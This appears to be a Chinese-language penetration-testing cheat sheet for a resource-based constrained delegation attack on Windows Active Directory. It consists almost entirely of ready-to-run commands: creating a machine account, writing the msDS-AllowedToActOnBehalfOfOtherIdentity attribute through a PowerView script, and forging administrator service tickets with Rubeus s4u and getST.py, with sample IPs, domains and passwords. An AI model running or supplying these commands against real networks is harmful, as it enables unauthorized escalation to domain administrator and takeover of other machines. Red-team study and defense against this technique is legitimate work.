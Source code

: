```
addcomputer.py -dc-ip 192.168.0.9 shigophilo/zhangsan:password
```
+ SharpAllowedToAct
 > 直接EXE完成创建机器账号和设置约束委派
```
SharpAllowedToAct.exe
```

## 设置约束委派
+ rbcd.py
```
python3 rbcd.py -dc-ip 10.6.100.60 -f 0shigophilo -t 目标机器 s.com\\username:password
```
+ powerview
```
# 这里的 sid -> S-1-5-21-3298638106-3321833000-1571791979-1112
# 是我们创建的 机器用户 0shigophilo 的 sid，在 powerview 下用 
Get-Domaincomputer 0shigophilo
# 获取

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3298638106-3321833000-1571791979-1112)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer [目标主机名(WIN7)]| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

//验证是否成功添加：
Get-DomainComputer WIN7 -Properties msds-allowedtoactonbehalfofotheridentity
```

## 请求st
+ Rubeus
```
//本地导出机器用户的 ntlm hash：
Rubeus.exe hash /user:0shigophilo /password:shigophilo@123 /domain:xxx

//然后用 evilsystem$的 hash 请求白银票据并导入到当前会话中：
Rubeus.exe s4u /user:0shigophilo$ /rc4:xxx /impersonateuser:administrator /msdsspn:cifs/dc /ptt

Rubeus.exe s4u /user:0shigophilo$ /rc4:xxx /impersonateuser:administrator /msdsspn:host/dc /ptt
```
> Rubeus 申请的票据和 impacket 申请的缓存票据有差别，测试时使用 Psexec 返回一个 shell 失败，需要再申请一个 HOST 票据。

+ getST.py
```
getST.py -spn cifs/Archives2.s.com -impersonate administrator -dc-ip 10.6.100.60 s.com/0shigophilo$:shigophilo\@1234
```
会获得一个.ccache文件
+ 导入票据
```
export KRB5CCNAME=rbcd/administrator.ccache
```
